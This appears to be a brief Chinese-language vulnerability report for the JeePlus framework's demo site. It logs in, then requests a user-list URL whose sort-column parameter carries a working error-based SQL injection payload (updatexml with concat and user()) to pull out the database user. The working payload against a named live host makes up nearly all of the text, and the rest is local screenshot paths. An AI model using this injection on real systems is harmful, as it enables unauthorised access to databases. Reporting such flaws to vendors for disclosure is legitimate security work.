 1、登录后：shttp://demo1.jeeplus.org/#/login

![image-20250715195624642](C:\Users\AS\AppData\Roaming\Typora\typora-user-images\image-20250715195624642.png)

2、访问地址

http://demo1.jeeplus.org/jeeplus-vue/sys/user/list?orders%5B0%5D.column=updatexml(1,concat(0x7e,user(),0x7e),1)

![image-20250715200132078](C:\Users\AS\AppData\Roaming\Typora\typora-user-images\image-20250715200132078.png)